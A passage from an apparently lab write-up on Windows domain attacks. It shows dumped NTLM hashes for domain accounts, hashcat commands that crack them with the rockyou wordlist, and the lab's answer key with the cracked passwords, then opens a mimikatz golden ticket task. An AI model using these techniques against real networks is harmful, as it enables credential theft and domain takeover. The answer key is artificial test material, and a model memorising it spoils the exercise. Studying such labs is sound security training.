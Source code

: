 ```shell
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 3b86e8b40884378eeb3d988ed098ebfb

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

4. ``hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/seclists/Passwords/rockyou.txt``
5. ``hashcat -m 1000 c39f2beb3d2ec06a62cb887fb391dee0 /usr/share/seclists/Passwords/rockyou.txt``

##   Answer the questions below

**what is the Machine1 Password?**

- 64f12cddaa88057e06a81b54e73b949b:Password1

**What is the Machine2 Hash?**

- c39f2beb3d2ec06a62cb887fb391dee0:Password2

* * * 

## Task 5 - Golden Ticket Attacks w/ mimikatz 

- We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

